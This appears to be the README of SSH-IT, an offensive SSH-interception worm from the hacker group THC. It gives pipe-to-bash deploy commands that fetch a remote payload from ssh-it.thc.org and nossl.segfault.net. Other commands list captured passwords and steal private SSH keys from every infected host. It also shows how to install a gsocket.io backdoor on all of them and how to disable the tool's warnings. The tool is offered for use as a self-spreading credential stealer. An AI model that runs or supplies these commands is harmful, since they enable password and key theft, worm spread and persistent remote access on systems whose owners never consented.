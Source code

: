 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```
~/.prng/thc_ctl -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```
~/.prng/thc_ctl -r uninstall
```

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` Display a warning when *ssh* is being intercepted (in bold red).
* ```THC_DEPTH=2``` The worm will not spread further than 2 hops away from the current host.
* ```THC_DEBUG=1``` Display debug information.
* ```THC_DEBUG_LOG=thc.log``` Output (most) debug information to ```thc.log```.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
#### Remote Command Execution
Executing a command on _all_ hosts
```
~/.prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```
~/.prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a backdoor on _all_ hosts:
```
~/.prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### When HTTPS is not available
Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

Special thanks to BadAdvert1zer for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


